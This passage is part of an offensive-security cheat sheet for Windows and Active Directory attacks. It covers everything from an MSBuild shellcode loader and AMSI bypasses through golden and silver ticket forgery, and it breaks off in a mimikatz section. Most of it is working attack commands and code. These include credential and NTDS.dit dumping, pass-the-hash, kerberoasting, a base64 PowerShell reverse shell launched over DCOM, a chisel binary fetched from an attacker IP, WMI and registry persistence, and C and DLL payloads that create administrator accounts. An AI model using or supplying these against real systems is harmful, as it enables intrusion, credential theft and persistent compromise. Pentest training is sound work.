            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            // PUT SHELLCODE HERE
 
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details>

<details>
<summary> AMSI Bypassing </summary>

``` powershell
# AMSI (antimalware scan interface) was addedd in powershell version 3, previous version wont have it. For example, the following command (run from cmd) wont trigger AMSI
powershell -version 2 -command " 'amsiutils' " 

# String modification will also work to bypass amsi. For example, the following powershell command wont trigger signatures
"Invoke"+"-Mimikatz"
```
</details>

<details>
<summary> Comment Stripping </summary>

``` powershell
# by removing comments, some AV/EDR may fail to signature certain things
PowerStripper.exe bad_script.ps1
```
</details>

<details>
<summary> Testing Windows Defender </summary>

``` powershell
# making modifications to a payload until it no longer triggers windows defender is another option. This tool will show the exact byte that triggered defender 
DefenderCheck.exe payload.exe
```
</details>

<details>
<summary> chameleon </summary>

``` powershell
https://github.com/klezVirus/chameleon
```
</details>


## Situational Awareness

There are several key pieces of information we should always obtain:

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes


<details>
<summary> linux </summary>

``` bash
cat /etc/passwd
sudo -l
# recursively search for a case insensitive filename from root directory
find / -type f -iname *.db
# recuresiveley search files for secrets from root directory
grep -Inri -e passw -e secret -e key / 2>/dev/null
# find SUID files
find / -perm -4000 -ls 2>/dev/null
# view all available disks
lsblk
# find writable directories 
find / -writable -type d 2>/dev/null
# find writable config files
find /etc -perm 2
# find readable bash histories 
find /home -name .bash_history -perm 4 2>/dev/null
# find writable authorized hosts files
find /home -name authorized_hosts -perm 2 2>dev/null
# scan a network range using netcat
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```
</details>

<details>
<summary> windows </summary>

``` bat
rem misc commands for situational awareness
systeminfo
ipconfig /all
route print 
netstat -ano
Get-Process

rem see powershell history
Get-History

rem find the logged powershell history from PSReadline
(Get-PSReadlineOption).HistorySavePath

rem see what groups your user is a member of. Builtin grpuops of note are Backup Operators (can create backup of all files on system), Remote Desktop Users (can RDP to the machine), and Remote Management Users (can access system with WinRM)
whoami /groups

rem check for SeImpersonatePrivilege enabled for priv esc
whoami /priv

rem show DNS details
ipconfig /displaydns

rem show all user accounts (local or domain)
net user
Get-LocalUser
net1.exe user
net user /domain

rem show information about a specific user (local or domain)
net user [username]
net user [username] /domain

rem chnage a domain user's password
net user /domain username newpassword

rem list all groups (local or domain)
net localgroup
Get-LocalGroup
net group /domain

rem show membership of a specific group (local or domain)
net localgroup "groupname"
Get-LocalGroupMember "groupname"
net group "groupname" /domain
net group "Domain Admins" /domain

rem show password policy (local or domain)
net accounts
net accounts /domain

rem add a user
net user [username] password /add

rem add user to local admins
net localgroup administrators [username] /add

rem show accounts with a bad password login count > 0
Get-ADObject -Filter 'badPwdCount -gt 0' -Server domain.com

rem check for windows credential guard
Get-ComputerInfo

rem show firewall settings
netsh firewall show state
netsh firewall show config
netsh advfirewall show allprofiles state

rem show all installed appilcations (32 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show all installed appilcations (64 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show scheduled tasks
schtasks /query /fo LIST /v

rem show patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn

rem find file recursively
dir /s *name*

rem find secrets recursiveley
dir /s *pass* == *cred* == *vnc* == *.config*

rem look for user files containing potentially sensitive information
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

rem query for SPNs
setspn.exe -T * -Q */*

rem use sysinternals adexplorer to fetch active directory information
ADExplorer.exe 

rem look for keepass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Microsoft Management Console

This native windows tool can be used in order to enumerate active directory. In order to install the software:
1. Press Start
2. Search "Apps & Features" and press enter
3. Click Manage Optional Features
4. Click Add a feature
5. Search for "RSAT"
6. Select "RSAT: Active Directory Domain Services and Lightweight Directory Tools" and click Install

You can start MMC by using the Windows Start button, searching run, and typing in MMC

(if running with runas on the attacker machine, you will need to configure the forrests. if running on a domain joined machine, some of this can be skipped.)

In MMC, we can now attach the AD RSAT Snap-In:

1. Click File -> Add/Remove Snap-in
2. Select and Add all three Active Directory Snap-ins
3. Click through any errors and warnings
4. Right-click on Active Directory Domains and Trusts and select Change Forest
5. Enter domain.com as the Root domain and Click OK
6. Right-click on Active Directory Sites and Services and select Change Forest
7. Enter domain.com as the Root domain and Click OK
8. Right-click on Active Directory Users and Computers and select Change Domain
9. Enter domain.com as the Domain and Click OK
10. Right-click on Active Directory Users and Computers in the left-hand pane
11. Click on View -> Advanced Features

If we had the relevant permissions, we could also use MMC to directly make changes to AD, such as changing the user's password or adding an account to a specific group.
</details>

<details>
<summary>active directory enumeration</summary>

```powershell
# using powerview
Import-Module PowerView.ps1
Get-NetDomain
Get-NetUser username
Get-NetGroup groupname
Get-NetComputer | select operatingsystem,dnshostname
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
# spray the environment to find possible local administrative access on computers under the current user context
Find-LocalAdminAccess
# get SPNs
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Find-DomainShare
Find-DomainShare -CheckShareAccess
```

</details>

<details>
<summary> impacket </summary>

``` bash
# extract list of all users
GetADUsers.py domain.com/username:password -dc-ip 10.140.10.2 -all

# enumerate user SPNs on a remote machine
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59
```
</details>

<details>
<summary> seatbelt.exe </summary>

``` powershell 
# get info on AV
seatbelt.exe AntiVirus

# get info on installations
seatbelt.exe InstalledProducts

# get system info
seatbelt.exe -q -group=system

# show commands that can be run against remote computers
seatbelt.exe -q | findstr +

# launch a module against a remote computer
seatbelt.exe UAC 'computername=10.140.12.13' -username=company\user -password=password
```
</details>

<details>
<summary> bloodhound </summary>

``` bash
#setup the service 
sudo neo4j start
bloodhiound

# using python tooling, remotely retreive AD information for loading into bloodhound
bloodhound-python -d domain.com -u username -p password -c ALL -ns 10.10.192.2

# using c# tooling (ps1 tooling also available), retreive AD infomation for loading into bloodhound and do not touch domian controllers (better for evasion)
Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs
```

some cipher queries for bloodhound:

1. query to display all computers identified:
`MATCH (m:Computer) RETURN m`

1. query to display all users identified:
`MATCH (m:User) RETURN m`
</details>

## Lateral Movement
<details>
<summary>port forwarding</summary>

```bash
# on a compromised machine, listen on port 2345 and forward all traffic to port 5432 of 10.4.50.215
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

# listen on port 2222 on a compromised machine, forward all traffic to 10.4.50.215 on port 22
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

# on attacking machine, you can effectively ssh to 10.4.50.215 via the compromised machine using the following command
ssh user@VICTIM_IP -p 2222
```
</details>

<details>
<summary>chisel</summary>

chisel works by creating a proxy over http/https, assisting with C2 through deep packet inspection.

```bash
# begin by copying the chisel binary to the victim machine
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel

# on attacking machine, start the chisel server with the --reverse flag to allow the reverse port forward.
chisel server --port 8080 --reverse

# initiate the proxy on the victim machine
chisel client 192.168.118.4:8080 R:socks


```
</details>


<details>
<summary>ssh tunneling</summary>

1. Local Port Forwarding



```bash 
# on a compromised host (with internal network access to 10.4.50.215), forward all traffic on port 4455 through 10.4.50.215 and to 172.16.50.217 on port 445
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# on the attacking machine, connect to 172.16.50.215 SMB share as if it were the compromised host
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```

2. Dynamic Port Forwarding



``` bash
# on a compromised host (with internal network access to 10.4.50.215), forward all traffic on port 9999 through 10.4.50.215 to any host on any port 
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# on the attacking machine, configure proxychains to send traffic via the compromised host, and scan a machine that is only accessible via 10.4.50.215
tail /etc/proxychains4.conf

# add to the proxy list the following line
socks5 192.168.50.63 9999

# using proxy chains, scan a host on all ports 
sudo proxychains nmap -vvv -sT -p- -Pn 172.16.50.217
```

3. Remote Port Forwarding 



``` bash
# on the attacking machine, ensure you are running ssh server
sudo systemctl start ssh

# on a compromised host that has limited inbound connections, initialize a tunnel to the attacking machine that forwards traffic to 10.4.50.215 on port 5432
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

# confirm the attacking machine is now listening on port 2345 
ss -ntplu

# on attacking machine, connect to 10.4.50.215 port 5432 via localhost port 2345 
psql -h 127.0.0.1 -p 2345 -U postgres
```

4. Remote Dynamic Port Forwarding



```bash
# on the compromised host, establish an outbound connection to the attacking host
ssh -N -R 9998 kali@192.168.118.4

# reconfigure proxychains 
tail /etc/proxychains4.conf

# add to the proxy list the following line 
socks5 127.0.0.1 9998

# scan a host that is only accessible via the compromised machine
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

5. Using netsh 

``` bat
rem create a port forward on port 2222 of a compromised host, and forward it to port 22 on 10.4.50.215 
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

rem no output from the above command, confirm it was created
netsh interface portproxy show all

rem create a firewall rule to open port 2222 on a compromised host
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```


</details>

<details>
<summary>sshuttle</summary>
leverage a forwarded port to provide transparent access to an internal network (as if connected to a VPN)

``` bash
# forward port 2222 on the compromised host to port 22 on 10.4.50.215
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

# on the attacking machine, configure sshuttle to use the forwarded port with the provided subnets
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

# on the attacking machine, connect to a host as if connected to a VPN 
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
</details>

<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *

rem expose and use an smb share
rem (on the "sharing" machine)
net share ShareName=C:\Share /grant:Everyone,FULL
icacls C:\Share /grant Everyone:F

rem on the machine wanting to access the share
rem if you need to authenticate 
net use \\ms01\share /user:domain.com\user.name Password123
net use \\ms01\share 
dir \\ms01\share 
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

PtH requires SMB (port 445) access, Windows File and Printer Sharing enabled, and the ADMIN$ share to be available. Attackers must have valid local admin credentials to move laterally.

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves to authenticate

tools that support PTH:
- PsExec from Metasploit
- Passing-the-hash toolkit
- Impacket

example usage: 
``` bash
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

</details>

<details>
<summary>overpass the hash</summary>

this technique essentially abuses an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS).

with a user's hash, we can start a powershell session as the user and obtain a TGT 
``` bat
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

This will spawn a new powershell session 

```powershell
# note running whoami will not show the new user, this is to be expected. Also, no TGT has been obtained yet
klist

# to get a TGT, authenticate to a network share
net use \\files04

# now, a TGT has been granted for the jen user
klist
```

the official PsExec application cannot use password hashes, but with a valid Kerberos TGT, it can be reused for remote code execution on a target host.

``` powershell
.\PsExec.exe \\files04 cmd
```
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

A service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.

Note, if we control an account with GenericWrite or GenericAll permissions on another AD user account, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to set an SPN for the user, kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting.

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# NOTE: If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```

same thing with rubeus

``` bat
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

</details>

<details>
<summary>AS-REP Roasting</summary>

Identify accounts with "Do not require Kerberos preauthentication" setting so that we can send an AS-REQ as the user, obtain the AS-REP, and crack their password offline.

Note, if we control an account with GenericWrite or GenericAll permissions on another AD user account, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication in order to perform AS-REP Roasting. This attack is known as Targeted AS-REP Roasting. 

``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/user:password

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

same thing using rubeus

``` bat
.\Rubeus.exe asreproast /nowrap
```

</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```

pulling tickets from memory:

``` bash
privilege::debug
sekurlsa::tickets /export

# inject the ticket 
kerberos::ptt dave@cifs-web04.kirbi

# confirm it got loaded 
klist

# use it
ls \\web04\backup
```

</details>

<details>
<summary>DCOM</summary>

Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

``` powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73")) # change target IP 

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7") # base64 encoded powershell reverse shell 
```

</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privilege Escalation

<details>
<summary><b>Linux</b></summary>

1. [GTFOBins](https://gtfobins.github.io/)  
2. [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
3. Cheatsheets: 

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

- https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html

4. container escape

``` bash
# check if you are in a container
cat /proc/mounts

# check for excessive capabilities
cat /proc/1/status | grep Cap

# decode the capabilities
capsh --decode=0000003fffffffff

# The presence of cap_net_admin and cap_sys_admin indicates that this container is either running in a privileged context or, at the very least, with all capabilities added. 

```

</details>

<details>
<summary><b>Windows</b></summary>

<details>
<summary>LOLBAS</summary>
<a href="https://lolbas-project.github.io/#">https://lolbas-project.github.io/#</a>
</details>

<details>
<summary>UAC Bypass</summary>
<a href="https://github.com/hfiref0x/UACME">https://github.com/hfiref0x/UACME</a>
</details>

<details>
<summary> Automated Checks </summary>

1. winpeas (https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
2. powerup.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. seatbelt (https://github.com/GhostPack/Seatbelt)

</details>

<details>
<summary>scheduled tasks</summary>

this is simmilar to service binary hijacking. If you have the proper permissions on an executable for a scheduled task, you can hijack it and its permissions. 

``` bat
rem query scheduled tasks, look for non-system tasks
schtasks /query /fo LIST /v
```
</details>

<details>
<summary> Unquoted Service Paths </summary>

an unquoted service path search might look like this 
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

rem List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
if you can find a service path which you have the proper permissions to write to, you can add a malicious binary with the proper name in order to hijack service execution. 

</details>

<details>
<summary> Service Binary Hijacking </summary>
overwrite a service executable with our own

``` bat
rem List services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

rem check permissioms of a service binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
next, create a new binary on the attacker machine as `service.c`. You can also use msfvenom or other payload providers. 
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
now, we can cross compile it and put it on the victim machine and restart the service. 

``` bash
x86_64-w64-mingw32-gcc service.c -o service.exe
```
</details>

<details>
<summary> DLL search order hijacking </summary>

The following listing shows the standard search order taken from Microsoft Documentation:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

If you can identify a program that is missing a dll, or you find that you can insert one higher up in the order, you could force the application to attach to your malicious dll. 

Procmon will be useful to identify program missing dll's.

On your attacker machine, cross compile a malicious dll as `mal.cpp`

``` cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
now, cross compile
``` bash
x86_64-w64-mingw32-gcc mal.cpp --shared -o SharedLib.dll
```

</details>

<details>
<summary> group policy preferences file </summary>

msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```

``` bash
gpp-decrypt ENCRYPTED_PASSWORD
```

</details>

<details>
<summary>Recovering Credentials from a PXE Boot Image</summary>
</details>

<details>
<summary>always install elevated registry setting </summary>

``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
</details>

<details>
<summary> unattended install files</summary>

``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
</details>

<details>
<summary>Exploits</summary>

privileges that may lead to privilege escalation are SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug and SeImpersonatePrivilege.

check for kernel vulns from microsoft https://msrc.microsoft.com/update-guide

``` bat
rem look for user privileges 
whoami /priv
whoami /all

rem get system info and patch info 
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

</details>
</details>

## Domination

<details>
<summary> DCSync </summary>

The DRS Remote Protocol lets domain controllers replicate without verifying the request source, only the requester’s rights. Users with replication rights (Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set) which are granted by default to Domain/Enterprise Admins and Administrators can launch a DCSync attack to impersonate a domain controller and extract credentials.

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol. In this case, you can retrieve any domain user, not just krbtgt
lsadump::dcsync /user:krbtgt
```

using impacket

``` bash
# impacket will use DRSUAPI, the Microsoft API implementing the Directory Replication Service Remote Protocol, in order to get NTDS.DIT secrets
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary>volume shadow copy</summary>

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file.

``` bat
rem take note of the shadow copy device name.
vshadow.exe -nw -p  C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

rem we also need to grab the system hive 
reg.exe save hklm\system c:\system.bak
```

``` bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary>golden ticket (using mimikatz)</summary>

``` bash
# dump ntds.dit on the domain controller to get the krbtgt hash and domain SID
privilege::debug
lsadump::lsa /patch

# purge existsing tickets
kerberos::purge

# forge the ticket 
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# open a cmd window with the golden ticket
misc::cmd

# now, psexec can be used with the golden ticket to authenticate
PsExec.exe \\dc1 cmd.exe
```
</details>

<details>
<summary> silver ticket </summary>

Due to how tickets are constructed and validated, we can contruct our own valid ticket for a specific SPN if we have the following information:

1. Password or hash for the SPN's account
2. domain SID
3. The target SPN

``` bat
rem obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe silver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe silver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1
```

using mimikatz:

```bat
rem dump password hashes 
privilege::debug
